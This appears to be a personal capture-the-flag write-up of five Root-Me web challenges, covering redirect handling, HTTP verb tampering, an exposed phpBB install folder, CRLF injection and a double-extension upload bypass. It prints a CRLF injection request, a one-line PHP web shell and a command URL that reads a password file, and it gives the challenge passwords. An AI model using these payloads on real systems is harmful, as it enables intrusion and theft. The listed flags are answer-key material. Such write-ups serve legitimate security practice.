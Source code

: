 # 10. HTTP - Improper redirect
The web page is automatically add redirect param to the url because of the Location header

```
http://challenge01.root-me.org/web-serveur/ch32/login.php?redirect
```

**The Location response header indicates the URL to redirect a page to. It only provides a meaning when served with a 3xx (redirection) or 201 (created) status response.)**

Solution: add 
```
allow_redirects=False
```
to the request (script in the folder)

pass: ExecutionAfterRedirectIsBad

# 11. HTTP - Verb tampering
My first idea is tried the script and the payload i had done earlier chall but no working, so i have to rethink about this chall. i note that the title is **Verb tampering** so the ideal here is change the request method to anything other than GET.

pass: ```a23e$dme96d3saez$$prap```

# 12. Install files
According to the title, the admin of this page uses phpbb (i dont know what it is) and he forget to delete his install folder, so the idea this to find it

Location: **/phpbb/install/**

pass: karambar

# 13. CRLF
(Carriage return and Line Feed) it means to create new lines (\r\n).
So the idea is to use intercept proxy (e.g. Burp suite) edit request to
```
GET /web-serveur/ch14/?username=%0D%0Aadmin%20authenticated%0D%0INJECTINHERE
```
# 14. File upload - Double extensions
The idea is upload our script and rce. 
(i have tried reverse shell with netcat and ngrok to port fowarding but somehow it didnt work LOL so i use this script from another write up)
```
<?php

$data = system($_GET["cmd"]);
echo $data;

?>
```
now change this to reverse.php.png to bypass the image filter and the final step is rce with cmd param
```
challenge01.root-me.org/web-serveur/ch20/galerie/upload/0c3f5ea659f03569d6fce99cf1233c56/test.php.png?cmd=cat%20../../../.passwd
```
pass: Gg9LRz-hWSxqqUKd77-_q-6G8

